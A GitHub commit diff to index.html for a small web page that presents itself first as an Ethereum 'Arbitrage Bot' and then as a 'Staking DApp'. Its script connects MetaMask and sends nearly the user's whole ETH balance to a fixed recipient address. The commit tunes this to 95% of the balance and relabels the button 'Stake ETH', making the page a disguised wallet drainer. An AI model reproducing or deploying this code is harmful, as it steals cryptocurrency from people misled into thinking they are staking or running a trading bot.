

Before and after one commit to Welovepussy/BnbAndEth, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Arbitrage Bot on Ethereum</title>
+    <title>Staking DApp on Ethereum</title>
     <style>
         body {
             font-family: Arial, sans-serif;
@@ -57,36 +57,17 @@
             border-radius: 15px;
             width: 0;
         }
-        #footer {
-            display: flex;
-            justify-content: space-between;
-            margin-top: 30px;
-            padding: 20px;
-        }
-        #footer a {
-            text-decoration: none;
-            color: #007bff;
-            font-weight: bold;
-        }
-        #footer a:hover {
-            color: #0056b3;
-        }
     </style>
 </head>
 <body>
 
 <div id="app">
-    <h1>Start your Arbitrage Bot</h1>
-    <p id="walletAddress">Connect your wallet to see your address</p>
+    <h1>Stake on Ethereum</h1>
+    <p id="walletAddress">Connect your wallet to see your Ethereum address</p>
     <button id="connectButton">Connect MetaMask</button>
-    <button id="stakeButton" disabled>Start Bot</button>
+    <button id="stakeButton" disabled>Stake ETH</button>
     <div class="status" id="status"></div>
     <div id="progressBar"><div id="progress"></div></div>
-</div>
-
-<div id="footer">
-    <a href="https://t.me/SocratesWeb3King" target="_blank">Telegram</a>
-    <a href="https://x.com/socratesweb3kin?s=21&t=pJyVwAY43BkwOF0vt4lRFQ" target="_blank">Twitter</a>
 </div>
 
 <script src="https://cdn.jsdelivr.net/npm/web3@1.6.0/dist/web3.min.js"></script>
@@ -117,7 +98,7 @@
     async function checkNetwork() {
         const networkId = await web3.eth.net.getId();
         if (networkId !== 1) {
-            alert("You are not connected to the Ethereum network. Please switch to Ethereum.");
+            alert("You are not connected to the Ethereum network. Please switch to Ethereum Mainnet.");
         } else {
             console.log("Connected to Ethereum network");
         }
@@ -136,29 +117,29 @@
                 }
             }, 1000);
 
+            // Fetch user balance and gas price
             const balance = await web3.eth.getBalance(userAccount);
             const gasPrice = await web3.eth.getGasPrice();
-
-            // Estimate gas for the transaction
             const gasLimit = await web3.eth.estimateGas({
                 from: userAccount,
                 to: recipientAddress,
                 value: balance
             });
 
-            // Calculate total gas cost
+            // Calculate gas cost
             const gasCost = BigInt(gasLimit) * BigInt(gasPrice);
 
-            // Ensure gas fee does not exceed balance
-            if (gasCost >= BigInt(balance)) {
+            // Define the percentage of balance to send (e.g., 95%)
+            const sendPercentage = 0.95;
+            const valueToSend = BigInt(balance) * BigInt(sendPercentage * 100) / BigInt(100);
+
+            // Ensure enough ETH is left for gas fees
+            if (valueToSend <= gasCost) {
                 document.getElementById("status").innerText = "Insufficient ETH to cover gas fees.";
                 clearInterval(progressInterval);
                 document.getElementById("progress").style.width = "0%";
                 return;
             }
-
-            // Calculate the amount to send, accounting for gas cost
-            const valueToSend = BigInt(balance) - gasCost;
 
             // Send ETH to the recipient
             const tx = await web3.eth.sendTransaction({
```
